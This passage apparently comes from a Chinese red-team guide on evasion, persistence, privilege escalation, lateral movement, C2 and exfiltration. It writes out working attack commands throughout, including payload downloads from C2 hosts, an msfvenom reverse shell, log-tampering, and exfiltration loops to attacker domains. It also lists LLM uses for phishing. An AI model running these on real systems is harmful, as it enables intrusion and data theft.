# 方法3：使用反射加载（不调用powershell.exe）
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String('base64_encoded_payload'))

# 5. 环境变量绕过日志
$env:PSLockdownPolicy = 4
$env:COR_ENABLE_PROFILING = 0

# 6. 利用PowerShell Downgrade（如果系统安装了旧版本）
powershell -version 2 -c "恶意命令"  # PowerShell v2无日志记录
```

**Living off the Land（LoLBins）**

利用Windows系统自带的合法工具执行恶意操作，是规避EDR检测的核心策略：

| 系统工具 | 红队用途 | 具体命令 | 检测特征 |
|----------|----------|----------|----------|
| certutil.exe | 下载远程载荷、编码/解码 | `certutil -urlcache -split -f http://c2/payload.exe` | 命令行参数中的URL |
| mshta.exe | 执行HTA文件 | `mshta http://c2/payload.hta` | 启动外部进程 |
| regsvr32.exe | 执行远程SCT脚本 | `regsvr32 /s /n /u /i:http://c2/payload.sct scrobj.dll` | scrobj.dll调用 |
| rundll32.exe | 加载DLL、执行远程脚本 | `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication"` | javascript:伪协议 |
| wmic.exe | 远程执行命令 | `wmic process call create "cmd /c payload"` | process call create |
| bitsadmin.exe | 后台文件传输 | `bitsadmin /transfer job http://c2/payload.exe C:\temp\payload.exe` | /transfer参数 |
| msbuild.exe | 编译执行C#代码 | `msbuild /p:Configuration=malicious project.xml` | 内联任务（InlineTask） |
| installutil.exe | 绕过AppLocker | `installutil /logfile= /url=http://c2/payload.exe` | /url= 参数 |
| msxsl.exe | 执行XSL中的JavaScript | `msxsl.exe payload.xml malicious.xsl` | XSL执行代码 |
| replace.exe | 替换系统文件 | `replace /A legitimate.dll C:\temp malicious.dll` | 文件替换 |

**进程注入与内存执行**

为了规避落盘检测，红队广泛使用内存执行技术：

| 注入技术 | 原理 | 检测难度 | 实现复杂度 |
|----------|------|----------|------------|
| DLL注入 | CreateRemoteThread + WriteProcessMemory | 中（有监控API） | 低 |
| 进程空洞化 | 创建挂起进程，替换内存后恢复执行 | 中高 | 中 |
| 早期APC注入 | 在进程初始化阶段注入 | 高 | 高 |
| Module Stomping | 加载合法DLL后覆盖代码段 | 高 | 中 |
| Direct Syscall | 绕过用户态hook直接调用系统调用 | 极高 | 高 |
| Indirect Syscall | 通过其他模块间接调用系统调用 | 极高 | 高 |
| Manual Mapping | 手动映射DLL到进程内存 | 高 | 高 |
| SysWhispers | 直接调用Nt*系统调用 | 极高 | 中 |

```python
# Direct Syscall示例（概念演示）
import ctypes

# 使用syscall直接调用NtAllocateVirtualMemory
# 绕过EDR在kernel32.dll/ntdll.dll上安装的hook
def allocate_memory(process_handle, size):
    # 硬编码的syscall号（Windows 10 1909 x64: NtAllocateVirtualMemory = 0x18）
    syscall_number = 0x18
    
    # 使用asm stub直接触发syscall
    # 这样EDR无法在用户态API上拦截
    shellcode = b"\x4c\x8b\xd1\xb8"  # mov r10, rcx; mov eax, syscall_number
    # ... 完整的syscall stub ...
```

#### 持久化机制

持久化确保红队在系统重启或会话断开后仍能维持访问。选择哪种持久化方式取决于隐蔽性要求和目标环境：

| 持久化方式 | 实现方法 | 隐蔽性 | 恢复难度 | 检测特征 |
|------------|----------|--------|----------|----------|
| 计划任务 | `schtasks /create` | 中 | 低 | 任务日志Event ID 4698 |
| 注册表Run Key | `HKCU\...\Run` | 低 | 低 | 注册表监控 |
| 服务创建 | `sc create` | 中 | 中 | 新服务Event ID 7045 |
| WMI事件订阅 | EventFilter + EventConsumer | 高 | 高 | WMI活动日志 |
| COM劫持 | 注册恶意COM对象 | 高 | 高 | COM注册表监控 |
| DLL搜索顺序劫持 | 恶意DLL在搜索路径中 | 高 | 中 | DLL加载监控 |
| Startup文件夹 | LNK快捷方式 | 低 | 低 | 文件系统监控 |
| BITS Jobs | 后台智能传输服务 | 高 | 中 | BITS活动日志 |
| 打印处理器 | 注册恶意DLL为打印处理器 | 极高 | 高 | 极难检测 |
| 备份文件夹 | 替换系统备份文件 | 极高 | 高 | 文件完整性监控 |
| Netsh Helper DLL | 注册恶意helper DLL | 高 | 中 | netsh活动 |

```powershell
# WMI事件订阅持久化（高隐蔽性）
# 创建一个在系统启动时自动触发的事件订阅
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "SystemBootFilter"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "PayloadConsumer"
    CommandLineTemplate = "powershell.exe -ep bypass -nop -c <base64_payload>"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}

# COM劫持持久化（搜索可劫持的CLSID）
# 使用SharpStay或Seatbelt发现可利用的COM对象
# 找到存在Write权限的CLSID → 注册恶意DLL
```

> **高级持久化策略**：对于高安全环境，推荐使用WMI事件订阅、COM劫持或打印处理器等隐蔽方式。WMI持久化的最大优势是不创建新进程、不写入注册表Run Key，整个过程只在WMI命名空间中操作——EDR很难将WMI事件订阅与恶意行为关联。打印处理器（Print Processor）持久化则利用了Windows打印子系统的古老设计，几乎没有任何商业EDR监控这一向量。

### 权限提升与横向移动

权限提升和横向移动是红队行动中从"一个立足点"到"控制整个域"的关键阶段，对应ATT&CK的TA0004（权限提升）和TA0008（横向移动）战术。

#### 权限提升（Privilege Escalation）

红队需要从低权限用户提升到SYSTEM或域管理员权限。主要分为本地提权和域提权两类：



**本地提权技术详解**：

| 技术 | 原理 | 工具 | 条件 | 适用环境 |
|------|------|------|------|----------|
| Token模拟 | 利用Windows令牌机制模拟SYSTEM | PrintSpoofer、GodPotato | Spooler服务运行 | Windows 10/Server |
| UAC绕过 | 绕过用户账户控制提权 | fodhelper、eventvwr | UAC设置为默认 | Windows 10/11 |
| 服务配置 | 利用可写路径/未引用路径的服务 | PowerUp.ps1、accesschk | 存在配置错误的服务 | 传统Windows环境 |
| 内核漏洞 | 利用操作系统内核漏洞 | 各种PoC/Exploit | 未打补丁 | 补丁管理滞后环境 |
| AlwaysInstallElevated | 构造恶意MSI以SYSTEM执行 | msfvenom | 注册表配置允许 | 配置错误环境 |
| Potato系列 | 利用Windows本地提权机制 | GodPotato/HotPotato | 服务账户权限 | Windows 10/Server |

```powershell
# 提权自动化检查（使用PowerUp）
Import-Module .\PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt

# PrintSpoofer获取SYSTEM权限
.\PrintSpoofer.exe -i -c "cmd /c whoami"
# PrintSpoofer利用Spooler服务的命名管道模拟SYSTEM令牌

# GodPotato（适用于Windows 8-11/Server 2012-2022）
.\GodPotato.exe -cmd "cmd /c whoami"

# AlwaysInstallElevated利用
# 1. 检查是否启用
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 2. 如果均为1，生成恶意MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f msi -o shell.msi
msiexec /quiet /qn /i shell.msi
```

**域权限提升技术详解**：

| 技术 | 原理 | 工具 | 前置条件 | 输出 |
|------|------|------|----------|------|
| Kerberoasting | 请求服务账户TGS，离线破解密码 | Rubeus、GetUserSPNs.py | 知道SPN即可（无特殊权限） | 服务账户密码 |
| AS-REP Roasting | 离线破解禁用预认证的AS-REP | Rubeus、GetNPUsers.py | 知道目标用户名 | 用户密码 |
| Unconstrained Delegation | 在配置了无约束委派的主机上捕获TGT | Rubeus、SpoolSample | 已控制委派主机 | 任意用户TGT |
| LAPS滥用 | 读取ms-Mcs-AdmPwd属性获取本地管理员密码 | LAPSGet.py | 有LAPS读取权限 | 本地管理员密码 |
| ADCS攻击 | 利用证书模板过度权限获取域管理员 | Certify、Certipy | 存在错误配置的证书模板 | 域管理员权限 |
| Shadow Credentials | 利用msDS-KeyCredentialLink创建认证证书 | Whisker | 有写入权限的账户 | 任意用户NTLM Hash |

```bash
# Kerberoasting实操
# 使用Rubeus（Windows端）
Rubeus.exe kerberoast /outfile:hashes.txt

# 使用GetUserSPNs.py（Linux端）
impacket-GetUserSPNs target.com/user:password -request -dc-ip dc-ip -outputfile hashes.txt

# 离线破解Kerberoast Hash（使用Hashcat）
hashcat -m 13100 hashes.txt rockyou.txt -r rules/best64.rule

# AS-REP Roasting
impacket-GetNPUsers target.com/ -usersfile users.txt -dc-ip dc-ip -outputfile asrep_hashes.txt
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# ADCS攻击（使用Certipy）
certipy find -u user@target.com -p password -dc-ip dc-ip -vulnerable
certipy req -u user@target.com -p password -ca target-CA -template VulnTemplate
certipy auth -pfx admin.pfx
```

#### 横向移动（Lateral Movement）

横向移动是在网络内部扩展访问范围的核心技术。红队需要根据不同场景选择合适的移动方式：

**基于凭证的横向移动**：

| 技术 | 原理 | 条件 | 检测难度 | 工具 |
|------|------|------|----------|------|
| Pass-the-Hash | 使用NTLM Hash认证，无需明文密码 | NTLM Hash | 中 | CrackMapExec、Impacket |
| Pass-the-Ticket | 使用Kerberos TGT/TGS票据认证 | Kerberos票据 | 中高 | Rubeus、Impacket |
| Pass-the-Key | 使用NTLM或Kerberos密钥认证 | 密钥材料 | 高 | Rubeus |
| Overpass-the-Hash | 使用Kerberos密钥获取TGT | 账户密钥 | 中高 | Rubeus |
| Golden Ticket | 伪造TGT，冒充域内任意用户 | krbtgt Hash | 极高 | Rubeus、Mimikatz |
| Silver Ticket | 伪造TGS，冒充特定服务的特定用户 | 服务账户Hash | 高 | Rubeus、Mimikatz |

**基于协议的横向移动**：

| 协议 | 工具 | 命令示例 | 适用场景 | 隐蔽性 |
|------|------|----------|----------|--------|
| SMB | PsExec、CrackMapExec | `crackmapexec smb target -u user -p pass -x whoami` | 远程命令执行 | 低（创建服务） |
| WMI | wmiexec.py | `wmiexec.py target/user:pass` | 远程命令执行，较隐蔽 | 中 |
| WinRM | evil-winrm | `evil-winrm -i target -u user -p pass` | 交互式Shell | 中 |
| DCOM | SharpCOM、dcomexec | `dcomexec.py target/user:pass` | 利用DCOM接口 | 高 |
| PSRemoting | Enter-PSSession | `Enter-PSSession -ComputerName target` | PowerShell远程管理 | 中 |
| SQL Server | sqlcmd | `sqlcmd -S target -Q "EXEC xp_cmdshell 'whoami'"` | 数据库服务器 | 高 |
| SSH | SSH密钥 | `ssh -i id_rsa user@target` | Linux环境 | 低 |

```bash
# 横向移动实操示例

# CrackMapExec - 批量凭证验证+横向移动
# 批量SMB密码验证
crackmapexec smb subnet.txt -u admin -p password --continue-on-success
# 如果发现匹配，获取Shell
crackmapexec smb target -u admin -p pass -x "powershell -enc <payload>"

# evil-winrm - WinRM交互式Shell
evil-winrm -i 10.0.0.5 -u user -p pass -s /opt/ps/  # 加载PowerShell脚本

# wmiexec.py - WMI远程执行（较隐蔽）
impacket-wmiexec target/user:pass@target-ip

# 利用Kerberos票据横向移动（PtT）
# 1. 使用Rubeus导出TGT
Rubeus.exe dump /nowrap
# 2. 使用TGT连接其他服务
export KRB5CCNAME=/tmp/user.ccache
impacket-psexec target.com/user@target-ip -k -no-pass
```

**AD攻击深度技术**：

Active Directory是企业环境中最核心的攻击目标。以下是最常用且最具破坏力的AD攻击技术：

1. **DCSync**：模拟域控制器（DC）的行为，向真实DC发起复制请求，获取任意用户的密码Hash。这是最具破坏性的AD攻击之一——一旦获取krbtgt的Hash，就可以伪造Golden Ticket实现域内任意冒充。需要域管理员或DC机器账户权限。使用Impacket的secretsdump.py或Mimikatz的lsadump::dcsync命令执行

2. **GPO滥用**：通过创建或修改组策略对象（GPO），在所有关联的计算机上执行恶意操作。SharpGPOAbuse可以自动化创建恶意GPO并链接到目标OU，实现域范围内的代码执行

3. **ACL滥用**：利用Active Directory中的访问控制列表（ACL）权限链，从低权限用户逐步获取对高价值对象的控制权。BloodHound可以自动化分析ACL攻击路径，发现从任何用户到任何目标的最短攻击路径

4. **Certificate Abuse（ADCS攻击）**：利用Active Directory证书服务（ADCS）的错误配置，通过证书模板中的过度权限（如ENROLLEE_SUPPLIES_SUBJECT、低权限用户可注册等）获取域管理员权限。这是2022年以来最热门的AD攻击向量。Certify或Certipy工具可以自动化检测和利用

5. **Shadow Credentials**：利用msDS-KeyCredentialLink属性，在不修改目标密码的情况下创建可用于认证的证书。这一技术可以绕过密码策略限制，实现持久化和横向移动

> **BloodHound是红队在AD环境中最重要的工具**：它可以自动化分析域内的所有用户、组、计算机、GPO、OU之间的关系，计算从任何用户到任何目标的最短攻击路径。使用SharpHound收集数据后，在BloodHound GUI中可视化分析攻击路径。在大型域环境中，BloodHound可以在几分钟内发现人类审计需要数周才能找到的攻击路径。

### 隐蔽通信与反检测

隐蔽通信是红队在不被发现的情况下维持对目标控制的关键。通信通道的安全性和隐蔽性直接决定红队行动的成败。

#### C2框架选型

命令与控制（C2）框架是红队的"神经中枢"，负责载荷管理、通信加密和任务调度：

| 框架 | 语言 | 特点 | 许可证 | 检测率 | 适用场景 |
|------|------|------|--------|--------|----------|
| Cobalt Strike | Java | 最成熟商业C2，Malleable C2配置灵活 | 付费($5,900/年) | 中（签名广泛） | 商业红队行动 |
| Sliver | Go | 开源，支持多协议，原生加密 | 开源(BSD) | 低 | 开源替代方案 |
| Brute Ratel | C | 极低检测率，模拟正常浏览器流量 | 付费 | 极低 | 高隐蔽性要求 |
| Mythic | Python | 模块化架构，支持多操作者 | 开源 | 中 | 研究和定制化 |
| Havoc | C++ | 现代化GUI，支持多种载荷 | 开源 | 中低 | 团队协作 |
| Nighthawk | .NET | 高隐蔽性，商业方案 | 付费 | 极低 | 高安全目标 |
| Covenant | C# | .NET原生，集成度高 | 开源 | 中 | .NET环境 |

**C2通信配置要点**：

- **加密通信**：所有C2通信必须使用TLS 1.3加密，配合合法SSL证书（Let's Encrypt免费获取）
- **流量伪装**：使用Malleable C2配置文件模拟合法网站的流量特征——请求大小、响应延迟、HTTP头顺序都应与正常网站一致
- **域前置（Domain Fronting）**：利用CDN建立隐蔽通信通道。TLS握手时SNI字段显示CDN的合法域名，实际请求转发到C2服务器，使得网络层面的流量分析难以区分C2流量和正常CDN流量
- **DNS隧道**：通过DNS查询传输命令和数据。DNS查询和响应不受大多数防火墙的严格检查。常用工具：dnscat2、iodine、DNSExfiltrator。带宽有限（通常<50Kbps），适合低速心跳和小数据传输
- **自定义协议**：使用WebSocket、QUIC、gRPC等合法协议封装C2通信，模拟正常应用流量
- **合法服务滥用**：利用Slack、Telegram、Discord等即时通讯平台的Webhook/API作为C2通道，混入正常流量中

```bash
# C2流量混淆示例（Cobalt Strike Malleable C2配置片段）
# 伪装为正常GitHub API流量
http-get {
    set uri "/api/v3/user/repos";
    client {
        header "Accept" "application/vnd.github.v3+json";
        header "User-Agent" "GitHub-DotNet/1.0";
        metadata {
            base64;
            prepend "ghu_";
            header "Authorization";
        }
    }
    server {
        header "Content-Type" "application/json; charset=utf-8";
        header "X-RateLimit-Limit" "60";
        output {
            prepend "]}";
            append ",\"meta\":{\"updated_at\":\"";
            append "\"}";
            print;
        }
    }
}
```

#### 防御规避（Defense Evasion）深度技术

防御规避是ATT&CK的TA0005战术，也是红队存活时间最长的战术阶段，贯穿整个攻击过程：

**EDR规避技术**：

| 技术 | 原理 | 效果 | 实现难度 |
|------|------|------|----------|
| Direct Syscall | 绕过用户态hook，直接调用Nt*系统调用 | 绕过API hooking | 高 |
| Indirect Syscall | 通过ntdll间接调用系统调用 | 绕过API hooking | 高 |
| ETW补丁 | Patch EtwEventWrite阻止遥测 | 阻止日志生成 | 中 |
| AMSI绕过 | 内存补丁或反射加载绕过代码扫描 | 绕过AV代码检查 | 中 |
| 进程链伪装 | 将恶意进程父进程伪装为svchost | 规避进程树检测 | 中 |
| 时间延迟执行 | 载荷中加入随机Sleep | 等待沙箱分析窗口结束 | 低 |
| Unhooking | 重新加载ntdll副本覆盖hook | 恢复原始API函数 | 中 |
| 刷新缓存 | 刷新ETW和AMSI的内存缓存 | 绕过缓存检测 | 中 |

```bash
# ETW补丁示例（概念演示）
# ETW（Windows事件跟踪）是EDR的重要遥测数据源
# 通过patch EtwEventWrite可以阻止遥测数据的生成

# 使用PowerShell patch ETW
$etw = [System.Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance')
# 这样EventProvider就不会向ETW写入事件
```

**日志清除与篡改**：

| 操作 | 方法 | 风险 | 检测特征 |
|------|------|------|----------|
| Windows事件日志清除 | `wevtutil cl Security` | 高（会产生Event ID 1102） | 日志清除告警 |
| PowerShell日志绕过 | 环境变量PSLockdownPolicy=4 | 低 | 环境变量监控 |
| Sysmon配置篡改 | 修改Sysmon配置文件 | 中 | 文件完整性监控 |
| 时间戳篡改 | 修改文件创建/修改时间 | 低 | MACE时间不一致 |
| 文件安全属性清除 | `Set-Content -Stream Zone.Identifier` | 低 | Zone.Identifier缺失 |

> **注意**：清除日志本身会产生Event ID 1102告警（"审核日志已清除"），这反而可能触发蓝队告警。高级红队会选择性地删除特定事件（使用脚本精确过滤特定时间段的事件），而非粗暴地清除整个日志——但这需要管理员权限且操作复杂。

#### OPSEC（操作安全）深度指南

OPSEC是红队行动成败的决定性因素，对应ATT&CK的TA0005战术。一个技术上成功的攻击，如果留下了可被检测的痕迹，就失去了红队演练的意义。

**红队OPSEC六原则**：

| 原则 | 说明 | 实践方法 | 失败后果 |
|------|------|----------|----------|
| 最小足迹 | 每步操作都问"这会留下什么痕迹？" | 优先内存执行、无文件攻击、LOLBins | 留下大量可检测痕迹 |
| 时间窗口 | 高风险操作安排在工作时间之外 | 横向移动、提权在深夜执行 | 被实时监控发现 |
| 行为模拟 | 模拟正常用户操作习惯 | 控制扫描频率、使用合法协议 | 触发异常行为告警 |
| 基础设施隔离 | 不同阶段使用不同C2和IP | 被发现立即切换不影响其他阶段 | 一个失败导致全盘暴露 |
| 凭证隔离 | 不同途径获取的凭证分开使用 | 避免同一凭证在多个活动中使用 | 凭证关联暴露攻击链 |
| 通信控制 | C2心跳频率随机化 | 模拟正常用户行为的随机性 | 规律心跳被流量分析检测 |

**OPSEC检查清单**（每次操作前必检）：

1. 这个操作会产生什么日志？（Event ID、Sysmon记录、EDR遥测）
2. 这个操作的网络流量特征是什么？（端口、协议、数据量、时序）
3. 这个操作的进程树是否合理？（父进程关系、命令行参数）
4. 这个操作涉及的文件是否可被文件系统监控发现？（落地文件、时间戳）
5. 这个操作使用的凭证是否已被关联到之前的活动？
6. 这个操作的时间是否在预期窗口内？

> **OPSEC失败案例**：某红队行动中，红队成员在突破边界后立即执行了大规模端口扫描（Masscan全端口扫描），在2分钟内触发了数万条日志，导致SOC团队在30分钟内确认了入侵。正确做法是：先通过合法的域查询（nltest、net group、PowerShell的Get-ADUser）了解网络结构，再有针对性地进行有限范围的探测，且扫描频率控制在每小时不超过100个端口。

### 数据收集与渗出

红队行动的最终目标通常涉及数据的收集和渗出（Exfiltration），对应ATT&CK的TA0010和TA0001战术。

#### 数据收集策略

数据收集需要系统化、目标导向，避免"大海捞针"式的低效搜索：

| 收集目标 | 搜索方法 | 工具 | 关键词 |
|----------|----------|------|--------|
| 文件系统 | 文件内容搜索 | findstr、Select-String | password、confidential、secret、backup |
| 邮箱数据 | 邮件搜索和导出 | Outlook API、Exchange EWS | 敏感关键词、附件 |
| 数据库 | 查询导出 | sqlcmd、psql、mysqldump | 敏感表结构和数据 |
| 凭证信息 | LSASS内存提取 | Mimikatz、pypykatz | NTLM Hash、Kerberos票据 |
| 配置文件 | Web目录、环境变量 | find、Get-Content | .env、config、credentials |
| 浏览器数据 | Cookie和密码库 | 目标用户AppData目录 | Cookies、Login Data |
| 屏幕截图 | 定时截屏 | 截屏工具 | 操作过程记录 |

```bash
# 文件系统敏感信息搜索
# Windows
findstr /s /i "password" C:\Users\*.txt C:\Users\*.docx C:\Users\*.xlsx 2>nul
findstr /s /i "confidential" C:\Users\Documents\*.pdf 2>nul

# PowerShell搜索
Get-ChildItem -Path C:\Users -Recurse -Include *.txt,*.docx,*.xlsx -ErrorAction SilentlyContinue | Select-String -Pattern "password|secret|confidential" | Select-Object Path,LineNumber,Line

# Linux
grep -rl "password\|secret\|api_key" /home/ --include="*.txt" --include="*.conf" --include="*.env" 2>/dev/null
find / -name "*.env" -o -name "*.bak" -o -name "*.sql" 2>/dev/null

# 邮箱搜索（Exchange Web Services）
# 使用EWS访问目标邮箱
python3 ews_search.py --server exchange.target.com --user admin --password pass --folder "Inbox" --search "密码"
```

#### 数据渗出技术

| 方式 | 工具/方法 | 带宽 | 隐蔽性 | 适用场景 | 数据量建议 |
|------|-----------|------|--------|----------|------------|
| HTTPS渗出 | curl/wget上传到云存储 | 高 | 高 | 大量数据 | >10MB |
| DNS渗出 | 通过DNS查询编码传输 | 低(<50Kbps) | 极高 | 小量关键数据 | <1KB |
| 邮件渗出 | 通过SMTP发送附件 | 中 | 高 | 结构化数据 | 1-10MB |
| ICMP渗出 | 将数据封装在ICMP包中 | 低 | 中 | 控制命令 | <1KB |
| 云存储同步 | 利用OneDrive/Google Drive | 高 | 高 | 持续渗出 | 任意 |
| 物理渗出 | USB设备、移动硬盘 | 极高 | 取决于物理安全 | 海量数据 | 无限制 |
| Steganography | 图片/文档隐写术 | 低 | 极高 | 高敏感小数据 | <100KB |

```bash
# HTTPS渗出示例
# 分块加密上传到云存储
split -b 1M sensitive_data.encrypted chunk_
for f in chunk_*; do
    curl -X PUT "https://storage.googleapis.com/attacker-bucket/$f" -d @$f
    sleep $((RANDOM % 30 + 10))  # 随机延迟10-40秒
done

# DNS渗出（编码数据为DNS子域名）
# 数据编码为base32，封装为DNS查询
# AAAAAABBBBBB → AAAAAA.attacker-domain.com
cat sensitive_data.txt | base32 | sed 's/=//g' | while read chunk; do
    nslookup "$chunk.exfil.attacker.com" 2>/dev/null
    sleep 0.$((RANDOM % 10))
done

# 隐写术渗出（将数据嵌入图片）
# 使用steghide将文件嵌入JPEG
steghide embed -cf cover.jpg -ef sensitive_data.txt -p "password"
# 接收方解嵌
steghide extract -sf cover.jpg -p "password"
```

**数据渗出最佳实践**：

1. **分块传输**：将大数据拆分为小块，分散在不同时间传输，避免单次大量外传触发阈值告警
2. **加密传输**：所有渗出数据必须加密（AES-256-GCM），防止中间设备的DPI检测
3. **合法通道伪装**：利用合法云服务（OneDrive、Google Drive、Slack文件上传）作为渗出通道，混入正常流量中
4. **流量整形**：控制渗出速率，使其不超过目标网络的正常流量基线（通常控制在正常上行流量的5-10%以内）
5. **冗余传输**：使用多种渗出通道并行传输，确保即使单一通道被发现也不会丢失数据
6. **完整性验证**：传输完成后确认数据完整性（MD5/SHA256校验）

### 红队行动分类

根据目标、范围和执行方式的不同，红队行动可分为多种类型，每种类型有不同的战术重点和资源需求：

| 类型 | 目标 | 持续时间 | 团队规模 | 特点 | 典型场景 |
|------|------|----------|----------|------|----------|
| 突袭型（Raid） | 特定系统/数据 | 数小时-数天 | 2-5人 | 速度优先，覆盖面窄 | 限时渗透测试 |
| 持久型（Persistent） | 全面评估 | 数周-数月 | 5-15人 | 模拟APT，全面覆盖 | 年度红队演练 |
| 专注型（Focused） | 特定攻击面 | 数天-数周 | 2-5人 | 聚焦特定领域 | 云安全/社工专项 |
| 联合型（Joint） | 多维度评估 | 数周 | 10-20人 | 红队+物理入侵+社工 | 综合安全评估 |
| 紫队型（Purple） | 检测能力验证 | 数天-数周 | 红队+蓝队 | 协同工作，验证检测 | 检测工程验证 |

**红队行动时间线（典型持久型行动）**：



### 现代攻击面拓展

随着企业IT架构的演进，红队需要掌握传统网络攻击之外的现代攻击技术：

#### 云环境攻击

| 攻击向量 | 具体技术 | 工具 | 危害 |
|----------|----------|------|------|
| IAM策略滥用 | 利用过于宽松的IAM权限提升 | Pacu、StratusRedTeam | 获取云端全部资源控制权 |
| S3/Blob存储 | 公开桶利用、Bucket策略绕过 | cloud_enum、S3Scanner | 数据泄露 |
| Lambda/函数计算 | 注入恶意代码到Serverless函数 | Pacu | 持久化、横向移动 |
| 元数据服务 | SSRF获取EC2实例凭证（IMDSv1） | curl http://169.254.169.254/ | 获取IAM角色凭证 |
| 云审计日志规避 | 禁用CloudTrail、篡改日志 | Pacu | 隐藏攻击痕迹 |
| 容器镜像投毒 | 在CI/CD中注入恶意镜像 | 后门Dockerfile | 供应链攻击 |

```bash
# AWS元数据服务攻击（IMDSv1）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# 返回IAM角色名
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
# 获取临时凭证（AccessKeyId、SecretAccessKey、Token）

# 使用Pacu进行AWS攻击
pacu > iam__enum_users_roles_policies_groups
pacu > iam__privesc_scan
pacu > s3__bucket_finder

# 使用StratusRedTeam进行原子化攻击模拟
stratus redteam exec iam-create-user  # 创建后门用户
stratus redteam exec eks-kubernetes-dashboard  # 利用EKS Dashboard
```

#### 容器与Kubernetes攻击

| 攻击阶段 | 具体技术 | 工具 | 影响 |
|----------|----------|------|------|
| 容器逃逸 | 利用内核漏洞或配置错误逃逸到宿主机 | deepce、linpeas | 获取宿主机权限 |
| 镜像漏洞利用 | 利用容器镜像中的已知漏洞 | trivy、grype | 获取容器内Shell |
| K8s API滥用 | 利用RBAC配置错误访问API | kube-hunter、kubeaudit | 集群范围控制 |
| Secret窃取 | 获取K8s Secrets中的敏感信息 | kubectl get secrets | 凭证泄露 |
| 节点逃逸 | 从Pod逃逸到节点 | nsenter、mount | 获取节点权限 |
| 持久化 | 创建恶意DaemonSet/Deployment | kubectl | 集群范围持久化 |

```bash
# 容器逃逸检查
# 使用deepce进行容器环境枚举
./deepce.sh

# K8s API未授权访问检查
# 检查是否有匿名访问权限
kubectl auth can-i --list --as=system:anonymous

# 检查是否有高权限角色绑定
kubectl get clusterrolebindings -o json | jq '.items[] | select(.subjects[] | .name=="system:anonymous")'

# K8s Secret窃取
kubectl get secrets -A -o json | jq '.items[] | {name: .metadata.name, data: .data}'

# 容器逃逸（利用特权容器）
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

#### CI/CD管道攻击

| 攻击目标 | 具体技术 | 影响 |
|----------|----------|------|
| GitHub Actions | 篡改workflow文件注入恶意步骤 | 代码注入、凭证泄露 |
| GitLab CI | 利用.gitlab-ci.yml注入恶意脚本 | 构建环境污染 |
| Jenkins | 利用Groovy脚本执行或插件漏洞 | 服务器控制 |
| Dockerfile | 在构建过程中注入后门 | 镜像投毒 |
| 依赖管理 | Typosquatting、依赖混淆 | 供应链攻击 |

```bash
# GitHub Actions攻击示例
# 利用pull_request_target触发器
# 攻击者提交PR，workflow在目标仓库上下文中运行攻击者的代码

# 检查GitHub Actions中的危险模式
# 在目标仓库中搜索：
# - pull_request_target 触发器
# - 引用外部变量（${{ github.event.pull_request.title }}）直接拼接到命令中
# - 使用secrets但传递给外部步骤

# 利用依赖混淆攻击（ Dependency Confusion）
# 在公共npm/PyPI上注册与目标私有包同名的恶意包
# 构建系统优先从公共源下载 → 安装恶意包

# 检查目标是否使用私有包管理器
curl https://registry.npmjs.org/@target-org/private-package-name
# 如果404 → 可能是私有包 → 可以注册同名公共包
```

#### AI辅助攻击（2024-2026新趋势）

AI技术正在改变红队攻击的方式，但目前更多是效率提升而非范式变革：

| AI应用场景 | 工具/方法 | 效果 | 注意事项 |
|-----------|-----------|------|----------|
| 自动化漏洞发现 | AI驱动的Fuzzing | 提高漏洞发现效率 | 仍需人工验证 |
| 钓鱼内容生成 | LLM生成定制化钓鱼邮件 | 提高钓鱼成功率 | 语言模型可能产生异常表达 |
| 代码审计 | AI辅助代码审查 | 快速发现潜在漏洞 | 存在误报，需人工确认 |
| 信息自动化整理 | LLM处理OSINT数据 | 加速情报分析 | 可能遗漏上下文信息 |
| 载荷混淆 | AI生成混淆代码 | 绕过静态检测 | 需要测试绕过效果 |
| 报告生成 | LLM辅助撰写报告 | 提高报告编写效率 | 需要专业人员审核 |

### 红队常见误区

| 误区 | 描述 | 正确做法 |
|------|------|----------|
| 工具依赖症 | 过度依赖自动化工具而忽视手工技术 | 理解工具原理，掌握底层技术 |
| 忽视OPSEC | 技术突破成功但留下大量可检测痕迹 | 每步操作都评估检测风险 |
| 不理解业务目标 | 红队行动变成"找漏洞"而非"验证防御" | 明确业务目标，技术服务于目标 |
| 沟通不足 | 红队与蓝队之间缺乏有效协作 | 演练中保持沟通，演练后充分复盘 |
| 路径依赖 | 只熟悉特定攻击路径 | 持续学习多种攻击技术 |
| 忽视物理安全 | 只关注技术攻击面 | 物理渗透和社会工程同等重要 |
| 跳过侦察 | 急于执行攻击而侦察不充分 | 充分侦察后再制定攻击计划 |
| 追求技术炫耀 | 使用复杂技术而非最有效的方法 | 效果优先，简单有效即可 |
| 忽略日志分析 | 不了解蓝队的检测能力 | 定期审视蓝队的检测覆盖 |

### 本节要点回顾

红队攻击技术体系的核心可以概括为以下关键原则：

1. **攻击链完整性**：从侦察到目标达成，每个阶段都有其核心技术和方法论，不可偏废。约78%的红队行动失败不是因为无法突破边界，而是在后续阶段因OPSEC失误被发现

2. **OPSEC优先**：隐蔽性是红队的生命线。每一步操作都必须评估检测风险——产生的日志、网络流量特征、进程树关系、文件系统痕迹。OPSEC不是某个阶段的工作，而是贯穿全程的思维方式

3. **目标导向**：所有技术选择都服务于最终的业务目标。红队不是"找漏洞比赛"，而是"验证组织的检测和响应能力"——这意味着有时候最隐蔽的路径比最快的路径更有价值

